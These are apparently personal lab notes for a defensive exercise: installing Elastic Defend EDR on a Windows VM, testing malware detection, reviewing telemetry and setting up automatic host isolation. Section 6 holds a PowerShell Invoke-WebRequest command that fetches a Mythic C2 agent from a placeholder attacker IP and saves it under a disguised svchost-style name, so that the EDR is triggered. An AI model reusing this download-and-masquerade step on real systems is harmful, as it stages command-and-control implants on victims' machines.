 ### 1. Introduction

**Goal:** Install and configure Elastic Defend on a Windows host to observe real-time endpoint telemetry, detect malicious activity, and test response capabilities.

---

### 2. Installing Elastic Defend

**Steps:**

- **Access Integrations:**  
    Click on the hamburger icon, scroll down to **Integrations**, and search for **Elastic Defend**.
    
- **Add Integration:**  
    Select _Add Elastic Defend_, name the integration (**MyDFIR-EDR**), and choose the configuration type — _Complete EDR_ to capture full telemetry.
    
- **Deploy:**  
    After the setup, deploy the configuration by clicking **Save and Continue** followed by **Save and Deploy Changes**.
    
![[Pasted image 20251020003054.png]]

---

### 3. Verifying Installation

**Steps:**

- **Check Endpoints:**  
    Go to **Security → Manage → Endpoints** to confirm the Windows host is enrolled and running Elastic Defend.
    
- **Optional Host Isolation:**  
    If a 30-day trial license is active, you can remotely isolate the host. _(This feature isn’t available on the free tier.)_
---

### 4. Testing Elastic Defend

**Steps:**

- **Trigger Detection:**  
    Open the Windows server console and terminate the malicious `mydfir-30.exe` process. Attempt to run the file again to verify whether Elastic Defend blocks it.


- **Confirm Alert:**  
    Check that the EDR triggers a **malware alert** and quarantines the file immediately.
    
![[Pasted image 20251020004530.png]]
---

### 5. Viewing Telemetry

**Steps:**

- **Search Malware Events:**  
    Open **Discover** and search for recent malware activity. Adjust the time filter (e.g., _Last 15 minutes_) and sort results by timestamp.
    
- **Review Alert Data:**  
    Inspect the alert fields for details like file path, quarantine location, file name, file owner, and file hash.
    
- **Visualize Process Tree:**  
    Use the process tree to view parent-child relationships and track the execution chain.
    
![[Pasted image 20251020004848.png]]


![[Screenshot 2025-10-20 005037.png]]



---

### 6. Configuring Response Actions

**Steps:**

- **Edit Detection Rule:**  
    Open **Detection Rules**, select the relevant malware prevention rule, and click **Edit Rule Settings**.
    
- **Add Response Action:**  
    Configure a response (e.g., host isolation).
    
- **Test Action:**  
    - Re-trigger the malware event and confirm that the response (e.g., isolation) is automatically executed.
    - Try to download the Mythic Agent again. SSH into the Mythic instance and mount the HTTP server again on port 9999.
    - Go to RDP session on Windows VM and open a PowerShell console, if you move up with the arrows you should find the command of **Invoke-WebRequest** and try to download it again (command: `Invoke-WebRequest -Uri http://<MYDFIR-MYTHIC-IP>:9999/mydfir-30.exe -OutFile "C:\Users\Public\Downloads\svchost-emaan.exe"`). The EDR reacts and deletes the file immediately.
    
![[Pasted image 20251020005826.png]]

![[Pasted image 20251020010332.png]]


---

### 7. Conclusion

- Elastic Defend successfully detected and blocked the malicious file in real time.
    
- Telemetry provided clear visibility into file and process activity.
    
- Configuring response actions enhances security posture by enabling automated containment.
    
- Even on the free tier, Elastic Defend offers strong detection and alerting capabilities, with advanced features available on trial or paid plans.

**Reference**
https://youtu.be/Ec-Ab8TbJKs?si=3q8KM65SbuYfHdVp